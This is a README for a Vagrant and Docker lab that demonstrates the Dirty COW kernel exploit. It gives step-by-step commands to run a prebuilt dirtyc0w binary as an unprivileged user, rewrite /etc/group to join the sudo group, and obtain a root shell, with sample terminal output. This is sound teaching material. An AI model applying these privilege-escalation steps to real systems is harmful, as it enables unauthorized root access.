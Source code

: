 # Dirtyc0w Docker POC

```
Prerequisites:
- Vagrant installed

```

# How to use

Firstly 
``
git clone https://github.com/BrolyCode/Dirty-Cow.git && cd Dirty-Cow
``
Then run up the environment with the command
```
vagrant up
```
Once the server is built, we will ssh into it
```
vagrant ssh
```
change to the root user
```
sudo -i
```
The first container should be running as part of the build process, we can check this with
```
docker ps
```
You should get something like
```
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                         NAMES
db86f1c04483        scottyc/dirtyc0w    "nginx -g 'daemon off"   22 seconds ago      Up 19 seconds       0.0.0.0:80->80/tcp, 443/tcp   nginx
```
Now we can log on as the hacker 
```
docker exec -it -u hacker nginx bash
```
In the directory we are logged into we have the following files
```
drwxrwxrwt  2 root root  4096 Nov  26 11:10 .
drwxr-xr-x 41 root root  4096 Nov  26 11:10 ..
-rwxr-xr-x  1 root root  9880 Nov  26 04:52 dirtyc0w
-rwxrwxrwx  1 root root  9880 Nov  26 04:52 dirtyc0w.c
```
If we cat the file `/etc/group` we see
```
hacker@27862a2f9973:~$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
....

```

We try to log in as root
```
sudo -i

```
We will now exploit the fail on `/etc/group`
```
./dirtyc0w 
```
It will print out the following to the terminal
```
mmap 7fd0facf4000

madvise 0

procselfmem 1500000000
```
Then we will cat `/etc/group` again
```
hacker@27862a2f9973:~$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:hacker
...

```

Login as root
```
sudo -i

root@27862a2f9973:~#
```



# Clean Up

Exit back to your host machines terminal and issue `vagrant destroy`

